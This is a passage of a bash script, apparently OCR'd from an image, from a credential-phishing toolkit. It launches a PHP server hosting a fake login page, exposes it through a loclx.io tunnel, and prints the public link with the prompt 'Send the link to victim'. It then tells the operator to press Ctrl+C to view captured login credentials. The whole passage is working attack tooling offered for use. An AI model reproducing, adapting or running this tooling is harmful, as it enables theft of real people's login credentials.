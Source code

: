 ./.htr/loclx tunnel http --to :4142 --subdomain $loclx_subdomain > .nexlink 2> /dev/null &

sleep 8

else
./.htr/loclx tunnel http --to :4142 > .nexlink 2> /dev/null &
sleep 8
fi
loclx_link=$(grep -o 'https://[0-9a-z]*\.loclx.io ' .nexlink)
smallbanner
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $loclx_link

datafound
}

start_localhostrun() {

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalHostRun ...\e[0m\n"
cd .htr/www && php -S 127.0.0.1:4545 > /dev/null 2>&1 & 
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4545\e[0m\e[1;91m )\e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Press Ctrl+C to View Login Creds \e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e

